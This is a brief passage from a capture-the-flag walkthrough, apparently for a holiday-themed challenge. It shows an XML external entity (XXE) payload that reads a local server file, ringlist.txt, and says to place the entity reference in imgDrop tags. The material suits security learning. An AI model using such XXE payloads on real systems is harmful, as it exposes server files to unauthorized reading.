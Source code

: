 ```
{
  "appResp": "I love rings of all colors!^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

### XXE Payload
Use the path derived from Grinchun and the hints about "APP" to get the RINGLIST
```
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/ringlist.txt"> ]>
```

Don't forget to put `&xxe;` in the `<imgDrop>` tags.

Vioala you get the RINGLIST

![6822d184d6f54c7c3e8231faa7094e7b.png](../../_resources/6822d184d6f54c7c3e8231faa7094e7b.png)
